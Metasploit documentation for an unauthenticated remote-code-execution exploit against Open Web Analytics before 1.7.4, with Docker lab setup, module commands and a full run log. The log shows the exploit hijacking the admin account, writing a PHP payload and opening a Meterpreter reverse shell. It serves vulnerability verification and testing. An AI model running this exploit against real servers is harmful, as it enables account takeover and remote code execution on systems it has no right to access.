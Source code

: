 ## Vulnerable Application

Open Web Analytics (OWA) before 1.7.4 allows an unauthenticated remote attacker to obtain sensitive user information, which can be used to gain admin privileges by leveraging cache hashes. This occurs because files generated with '<?php (instead of the intended "<?php sequence) aren't handled by the PHP interpreter.

## Verification Steps

1. Start a vulnerable instance of OWA using docker
    - Download https://github.com/Pflegusch/CVE-2022-24637/blob/main/deployment/docker-compose.yml
    - Start the containers: ``docker compose up -d``
    - Open http://127.0.0.1:80/
    - Follow installation steps using the envs from the ``docker-compose.yml`` file
        - Public URL: ``http://127.0.0.1/``
        - Database Host (``docker inspect <db-container>`` and get ``IPAddress``, e.g ``172.22.0.2``)
        - Database Port: ``3306``
        - Database Name: ``owa``
        - Database User: ``owa``
        - Database Password: ``Demo12+#``
        - Continue
        - Site Domain: ``http://127.0.0.1``
        - Admin name: ``admin``
        - E-Mail: ``admin@admin.com``
        - Password: ``Demo12+#``
        - Continue

2. Start ``msfconsole``
3. ``use exploit/multi/http/open_web_analytics_rce``
4. ``set RHOSTS 127.0.0.1``
5. ``set RPORT 80``
6. ``set SSL false``
7. ``set LHOST 172.22.0.1`` -> this needs to be bridge IP that got created with the ``docker compose up -d`` command
8. ``check``
9. ``run``

````
msf6 exploit(multi/http/open_web_analytics_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/open_web_analytics_rce) > set SSL false
SSL => false
msf6 exploit(multi/http/open_web_analytics_rce) > set LHOST 172.22.0.1
LHOST => 172.22.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > check
[+] 127.0.0.1:80 - The target is vulnerable.
msf6 exploit(multi/http/open_web_analytics_rce) > run

[*] Started reverse TCP handler on 172.22.0.1:4444 
[+] Connected to http://127.0.0.1:80/ successfully!
[*] Attempting to find cache of 'admin' user
[+] Found temporary password for user 'admin': b42f457df9d9482324ca8fe041f19f1c
[+] Changed the password of 'admin' to 'pwned'
[+] Logged in as admin user
[*] Creating log file
[+] Wrote payload to file
[*] Sending stage (39927 bytes) to 172.22.0.3
[*] Meterpreter session 3 opened (172.22.0.1:4444 -> 172.22.0.3:47728) at 2023-03-09 13:55:58 +0100
[+] Triggering payload! Check your listener!
[*] You can trigger the payload again at 'http://127.0.0.1:80/owa-data/caches/ERaG8bho.php

meterpreter > pwd
/var/www/html/owa-data/caches
meterpreter > getuid
Server username: www-data
````